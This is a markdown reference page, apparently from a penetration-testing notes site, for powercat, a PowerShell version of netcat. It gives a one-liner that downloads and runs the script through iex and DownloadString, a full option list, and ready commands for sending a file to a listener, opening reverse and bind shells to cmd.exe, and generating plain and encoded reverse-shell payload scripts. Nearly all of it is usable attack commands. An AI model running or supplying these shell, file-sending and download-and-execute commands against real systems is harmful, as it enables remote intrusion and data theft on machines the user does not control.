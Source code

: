 ```yaml
---
title : "powercat"
# pre : ' '
description : "Netcat: The powershell version. (Powershell Version 2 and Later Supported)."
date : 2022-09-26T14:49:48+02:00
# hidden : true
# draft : true
weight : 230
# tags : ['']
---
```


---

Netcat: The powershell version. (Powershell Version 2 and Later Supported)

## Installation

powercat is a powershell function. First you need to load the function before you can execute it. You can put one of the below commands into your powershell profile so powercat is automatically loaded when powershell starts.

Download the `.ps1` here and execute with the command below.

{{%resources fa_icon_class="fas fa-terminal" pattern=".*(ps1)"/%}}

```plain
. .\powercat.ps1
```

Or invoke directly with `iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')`

## Usage

```plain
powercat [-c or -l] [-p port] [options]
```

## Flags

```plain
  -c  <ip>        Client Mode. Provide the IP of the system you wish to connect to.
                  If you are using -dns, specify the DNS Server to send queries to.

  -l              Listen Mode. Start a listener on the port specified by -p.

  -p  <port>      Port. The port to connect to, or the port to listen on.

  -e  <proc>      Execute. Specify the name of the process to start.

  -ep             Execute Powershell. Start a pseudo powershell session. You can
                  declare variables and execute commands, but if you try to enter
                  another shell (nslookup, netsh, cmd, etc.) the shell will hang.

  -r  <str>       Relay. Used for relaying network traffic between two nodes.
                  Client Relay Format:   -r <protocol>:<ip addr>:<port>
                  Listener Relay Format: -r <protocol>:<port>
                  DNSCat2 Relay Format:  -r dns:<dns server>:<dns port>:<domain>

  -u              UDP Mode. Send traffic over UDP. Because it's UDP, the client
                  must send data before the server can respond.

  -dns  <domain>  DNS Mode. Send traffic over the dnscat2 dns covert channel.
                  Specify the dns server to -c, the dns port to -p, and specify the
                  domain to this option, -dns. This is only a client.
                  Get the server here: https://github.com/iagox86/dnscat2

  -dnsft <int>    DNS Failure Threshold. This is how many bad packets the client can
                  recieve before exiting. Set to zero when receiving files, and set high
                  for more stability over the internet.

  -t  <int>       Timeout. The number of seconds to wait before giving up on listening or
                  connecting. Default: 60

  -i  <input>     Input. Provide data to be sent down the pipe as soon as a connection is
                  established. Used for moving files. You can provide the path to a file,
                  a byte array object, or a string. You can also pipe any of those into
                  powercat, like 'aaaaaa' | powercat -c 10.1.1.1 -p 80

  -o  <type>      Output. Specify how powercat should return information to the console.
                  Valid options are 'Bytes', 'String', or 'Host'. Default is 'Host'.

  -of <path>      Output File.  Specify the path to a file to write output to.

  -d              Disconnect. powercat will disconnect after the connection is established
                  and the input from -i is sent. Used for scanning.

  -rep            Repeater. powercat will continually restart after it is disconnected.
                  Used for setting up a persistent server.

  -g              Generate Payload.  Returns a script as a string which will execute the
                  powercat with the options you have specified. -i, -d, and -rep will not
                  be incorporated.

  -ge             Generate Encoded Payload. Does the same as -g, but returns a string which
                  can be executed in this way: powershell -E <encoded string>

  -h              Print this help message.
```

## Examples

### Send a file to receiver

- Receiver: `nc -nlvp 443 > out.txt`

```plain
powercat -c 10.0.0.20 -p 443 -i .\testfile.txt
```

### Shells (reverse/bind)

### Reverse shell

- Receiver: `nc -nlvp 443`
- `-e` - specifies the application that is executed once connected

```plain
powercat -c 10.0.0.20 -p 443 -e cmd.exe
```

### Bind shell

- `-l` - specifies powercat to create a listener
- `-e` - specifies the application that is executed once connected

```plain
powercat -l -p 443 -e cmd.exe
```

Once a connection is received (`nc <ip> 443`) the bind shell will be initiated.

### Payload Generation

### Standalone payloads

- Non-encoded

```plain
powercat -c 10.0.0.20 -p 443 -e cmd.exe -g > reverse-shell.ps1
```

- Encoded (run with `powershell.exe -E`)

```plain
powercat -c 10.0.0.20 -p 443 -e cmd.exe -ge > reverse-shell.ps1
```

## URL List

- [Github.com - powercat](https://github.com/besimorhino/powercat)
